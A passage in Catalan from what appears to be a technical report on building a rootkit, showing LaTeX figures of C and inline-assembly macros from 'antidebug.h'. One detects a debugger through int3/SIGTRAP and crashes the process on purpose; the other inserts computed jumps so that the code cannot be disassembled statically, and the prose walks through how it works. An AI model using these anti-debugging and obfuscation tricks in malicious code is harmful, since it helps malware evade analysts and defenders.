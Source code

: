 \begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaN[#]@PYaN[define antidebug_sigtrap() \]
@PYaN[    signal(SIGTRAP, antidebug_sigtrap_handler); \]
@PYaN[    __asm__("int3"); \]
@PYaN[    signal(SIGTRAP, SIG_DFL); \]
@PYaN[	if (antidebug_sigtrap_var != 1) { \]
@PYaN[        debug("antidebug_sigtrap reached!\n"); \]
@PYaN[        int segfaultaddr = 0; \]
@PYaN[        *(int *)segfaultaddr = 0xdeadfeef; \]
@PYaN[    } \]
@PYaN[	else antidebug_sigtrap_var = 0; \]
\end{Verbatim}
\caption{antidebug.h}
\label{fig:antidebug_set_sigtrap}
\end{figure}

\subsubsection{Ofuscar el codi}
L'última tècnica utilitzada per a protegir el nostre rootkit, és utilitzada per ofuscar el codi del nostre
executable. L'objectiu d'aquesta tècnica és dificultar l'anàlisi del codi, ja que el què fem és introduir
en el codi, salts a posicions que no poden ser resoltes estàticament.  \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaN[#]@PYaN[define antidebug_obfuscate_analysis(value) \]
@PYaN[__asm__("pushl %eax\n" \]
@PYaN[        "jmp antidebug1" #value " + 2\n" \]
@PYaN[        "antidebug1" #value ":\n" \]
@PYaN[        ".short 0x457c\n" \]
@PYaN[        "call reloc" #value "\n" \]
@PYaN[        "reloc" #value ":\n" \]
@PYaN[        "popl %eax\n"\]
@PYaN[        "jmp antidebug2" #value "\n"\]
@PYaN[        "antidebug2" #value ":\n"\]
@PYaN[        "addl $(data" #value " - reloc" #value " + 4), %eax\n"\]
@PYaN[        "jmp *%eax\n" \]
@PYaN[        "data" #value ":\n" \]
@PYaN[        ".long 0\n" \]
@PYaN[        "popl %eax\n" \]
@PYaN[        );]
\end{Verbatim}
\caption{antidebug.h}
\label{fig:antidebug_obfuscate}
\end{figure}

Per tal de poder aconseguir aquesta obuscació a tant baix nivell, ens cal utilitzar llenguatge ensamblador. \\

Com podem veure a la figura \ref{fig:antidebug_obfuscate}, el què fem és calcular l'adreça que tenim just 
després del nostre codi, i saltar fent servir aquest punter. El call reloc ens deixa a la pila l'adreça de 
retorn, que és exactament l'adreça de memòria on es troba la instrucció popl \%eax. Després, en la operació
addl es calcula la distància entre l'etiqueta data i l'etiqueta reloc, i se li suma a la direcció de memòria
que hem obtingut anteriorment més 4. Aquest càlcul ens retorna la direcció just després d'on hi ha el .long 0 
que són 4 bytes a 0. El jmp *\%eax fa que l'execució salti a aquest punt. \\

